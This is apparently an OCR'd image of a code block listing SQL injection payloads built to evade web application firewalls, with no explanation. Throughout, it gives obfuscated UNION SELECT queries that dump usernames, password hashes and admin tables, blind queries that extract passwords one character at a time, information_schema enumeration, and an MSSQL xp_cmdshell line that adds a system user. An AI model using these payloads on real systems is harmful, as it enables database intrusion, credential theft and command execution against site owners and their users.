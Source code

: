 ``` sql  
  
/*!union*/+/*!select*/+1,2,3—
  
/*!UnIOn*//*!SeLect*/+1,2,3—
  
un/**/ion+sel/**/ect+1,2,3—
  
/**//*U*//*n*//*I*//*o*//*N*//*S*//*e*//*L*//*e*//*c*//*T*/1,2,3—
  
ID=66+UnIoN+aLL+SeLeCt+1,2,3,4,5,6,7,(SELECT+concat(0x3a,id,0x3a,password,0x3a)+
  
FROM+information_schema.columns+WHERE+table_schema=0x6334706F645F666573746976616C5F636D73+AND+table_name=0x7573657273),
  
9,10,11,12,13,14,15,16,17,18,19,20,21,22,23,24,25,26,27,28,29,30--

?id=1+and+ascii(lower(mid((select+pwd+from+users+limit+1,1),1,1)))=74
  
index.php?uid=strcmp(left((select+hash+from+users+limit+0,1),1),0x42)+123
  
?page_id=null%0A/**//*!50000%55nIOn*//*yoyu*/all/**/%0A/*!%53eLEct*/%0A/*nnaa*/+1,2,
  
?id=15+/*!UnIoN*/+/*!aLl*/+/*!SeLeCt*/+1,version(),3,4,5,6,7--
  
id=1/*!limit+0+union+select+concat_ws(0×3a,table_name,column_name)+from+information_schema.columns*/
  
id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(TABLE_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.TABLES-- 
  
id=-725+/*!UNION*/+/*!SELECT*/+1,GrOUp_COnCaT(COLUMN_NAME),3,4,5+FROM+/*!INFORMATION_SCHEM*/.COLUMNS+WHERE
  
+TABLE_NAME=0x41646d696e--
  
SELECT*FROM(test)WHERE(name)IN(_ucs2 0x01df010e004d00cf0148);
  
SELECT(extractvalue(0x3C613E61646D696E3C2F613E,0x2f61)) in xml way
  
select user from mysql.user where user = 'user' OR mid(password,1,1)=unhex('2a')
  
select user from mysql.user where user = 'user' OR mid(password,1,1) regexp '[*]'
  
select user from mysql.user where user = 'user' OR mid(password,1,1) like '*'
  
select user from mysql.user where user = 'user' OR mid(password,1,1) rlike '[*]'
  
select user from mysql.user where user = 'user' OR ord(mid(password,1,1))=42
  
/?id=1+union+(select'1',concat(login,hash)from+users)
  
/?id=(1)union(((((((select(1),hex(hash)from(users))))))))
  
?id=1'; /*&id=1*/ EXEC /*&id=1*/ master..xp_cmdshell /*&id=1*/ “net user lucifer UrWaFisShiT” /*&id=1*/ --
  
id=10 a%nd 1=0/(se%lect top 1 ta%ble_name fr%om info%rmation_schema.tables)
  
id=10 and 1=0/(select top 1 table_name from information_schema.tables)
 
id=-725+UNION+SELECT+1,GROUP_CONCAT(id,0x3a,login,0x3a,password,0x3a,email,0x3a,access_level),3,4,5+FROM+Admin--
  
```